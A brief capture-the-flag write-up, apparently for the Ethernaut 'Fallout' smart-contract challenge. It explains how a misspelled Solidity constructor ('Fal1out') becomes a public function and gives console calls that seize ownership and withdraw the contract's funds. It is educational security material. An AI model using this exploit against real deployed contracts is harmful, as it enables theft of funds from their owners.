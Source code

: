 This one is outdated :(

The trick here is in the constructor.

In older versions of solidity, constructors were *named* `constructor name === contract name`.

So:
``` javascript
contract ImAContract {
    // constructor
    function ImAContract public payable {}
}
```
is now
```javascript
contract ImAContract {
    // constructor
    constructor() public {}
}
```

So remember, the constructor is only called upon contract creation. If a constructor name was mispelled, it could be called like any other public function.

We can see clearly that the constructor of contract `Fallout` is mispelled as `Fal1out` and that if called, it makes the `msg.sender` owner of the contract and it allocates the owner the `msg.value`.

## Solution
1. Call the mispelled constructor
```javascript
contract.Fal1out({ from:player, value: toWei("0.0001", "ether") })
```
2. Collect fundz
```javascript
contract.collectAllocations()
```